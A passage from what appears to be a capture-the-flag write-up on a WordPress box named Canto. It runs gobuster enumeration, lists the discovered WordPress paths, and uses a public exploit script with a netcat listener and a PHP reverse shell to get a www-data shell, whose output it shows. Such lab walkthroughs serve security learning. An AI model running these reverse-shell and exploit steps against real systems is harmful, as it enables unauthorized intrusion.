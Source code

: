 The third exploit looks promising.

Alright then let's go into fuzzing for subdirectories

# Subdirectory Enumeration 

I'm using gobuster to enumerate the subdirectories

```bash
gobuster dir -u 10.10.99.12 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,js
```

With this large wordlist, fuzzing takes a while but several results were provided.
The found subdomains are:

- /wp-content/
- /index.php
- /wp-includes/
- /wp-admin/ -> admin login
- /wp-login.php
- /readme.html
- /wp-trackback.php

With access to the admin area we may be able to exploit the web application. 


# Exploiting Canto

To exploit Canto we run the exploit python script 51826.py after starting a netcat listener first

```bash
# Starting the listener
nc -lnvp 4444

# Running the exploit with php-reverse-shell

python3 51826.py -u http://10.10.99.12 -LHOST 10.10.0.10 -s php-reverse-shell.php
```
**We have a shell!!!**

```bash
Linux canto 6.5.0-28-generic #29-Ubuntu SMP PREEMPT_DYNAMIC Thu Mar 28 23:46:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 19:11:40 up 10 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```

# Look around
